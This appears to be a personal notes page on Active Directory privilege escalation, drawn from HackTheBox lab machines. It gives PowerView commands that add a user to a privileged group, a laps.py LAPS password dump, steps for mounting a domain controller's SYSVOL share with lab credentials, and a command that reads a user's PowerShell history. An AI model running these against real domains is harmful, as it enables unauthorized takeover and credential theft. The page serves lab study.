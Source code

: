 ```yaml
---
description: >-
  Active Directory Privilege Escalation Techniques (Domain Admin)
title: Domain Admin Techniques              # Add title here
date: 2023-01-02 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Privilege Escalation]                     # Change Templates to Writeup
tags: [active directory, windows privesc, readlaps, sysvol share, powershell history]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Assign user to a group

This is a repository of techniques to get Domain Admin via multiple techniques.
```powershell
Import-Module ./PowerView.ps1

$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('streamio\\JDgodd', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -principalidentity "streamio\\JDgodd"

Add-DomainGroupMember -Identity 'Core Staff' -Members 'streamio\\JDgodd' -Credential $Cred

net group 'Core Staff'
```
Examples:
[[StreamIO#dc6ecc]]

### ReadLAPSPassword

We can use the utility laps.py to read LAPS passwords:
```bash
python3 laps.py -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -d streamio.htb
LAPS Dumper - Running at 07-07-2022 13:57:05
DC &V@%DQ-wEwQ97A
```
[[StreamIO#^2cc182]]

### SYSVOL Share DC

We can enumerate SMB Shares within the machine: ^cae2ef
```bash
PS C:\Users\BTables\Desktop> Get-SMBShare

Name   ScopeName Path Description  
----   --------- ---- -----------  
ADMIN$ *              Remote Admin 
C$     *              Default share
IPC$   *              Remote IPC 
```
We can try to connect to the shares on the DC:
```bash
PS C:\Users\BTables\Desktop> net use \\dc.fulcrum.local\IPC$ /user:FULCRUM\BTables ++FileServerLogon12345++
The command completed successfully.
```
And then we can list the shares in the DC:
```bash
PS C:\Users\BTables\Desktop> net view \\dc.fulcrum.local\
Shared resources at \\dc.fulcrum.local\
Share name  Type  Used as  Comment              
-------------------------------------------------------------------------------
NETLOGON    Disk           Logon server share   
SYSVOL      Disk           Logon server share   
The command completed successfully.
```
We can then mount the share SYSVOL on the compromised machine to check its content:
```bash
PS C:\Users\BTables\Desktop> net use x: \\dc.fulcrum.local\SYSVOL /user:FULCRUM\BTables ++FileServerLogon12345++

The command completed successfully.
```
And we found a ton of scripts inside the Share:
```bash
PS X:\fulcrum.local\scripts> dir
    Directory: X:\fulcrum.local\scripts

Mode                LastWriteTime         Length Name
----                -------------         ----- -----                                                                                                                      
-a----        2/12/2022  10:34 PM            340 00034421-648d-4835-9b23-c0d315d71ba3.ps1
-a----        2/12/2022  10:34 PM            340 0003ed3b-31a9-4d8f-a152-a234ecb522d4.ps1
```

### Powershell History

We can retrieve commands executed on another machine by checking the ConsoleHost_history.txt which is the same as in Linux .bash_history file.
#Note If using this command we need to be on the User's folder since this file is located in the AppData folder:
```bash
PS C:\Users\legacyy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
Examples:
[[Timelapse#^3ceb21]]
